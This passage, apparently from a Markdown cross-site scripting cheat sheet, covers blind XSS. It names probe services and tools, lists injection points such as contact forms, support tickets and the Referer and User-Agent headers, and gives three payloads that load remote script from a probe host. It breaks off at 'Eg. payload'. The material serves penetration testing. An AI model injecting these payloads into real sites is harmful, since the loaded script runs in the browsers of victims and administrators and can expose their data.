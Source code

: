 ```html
    }, 2000);
}
</script>
</html>
```

## Blind XSS

### XSS Hunter

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

XSS Hunter is deprecated, it was available at [https://xsshunter.com/app](https://xsshunter.com/app). 

You can set up an alternative version 
* Self-hosted version from [mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)
* Hosted on [xsshunter.trufflesecurity.com](https://xsshunter.trufflesecurity.com/)

```xml
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```

### Other Blind XSS tools

- [sleepy-puppy - Netflix](https://github.com/Netflix-Skunkworks/sleepy-puppy)
- [bXSS - LewisArdern](https://github.com/LewisArdern/bXSS)
- [ezXSS - ssl](https://github.com/ssl/ezXSS)

### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box
  - Administrative Panel

### Tips

You can use a [Data grabber for XSS](#data-grabber-for-xss) and a one-line HTTP server to confirm the existence of a blind XSS before deploying a heavy blind-XSS testing tool.

Eg. payload

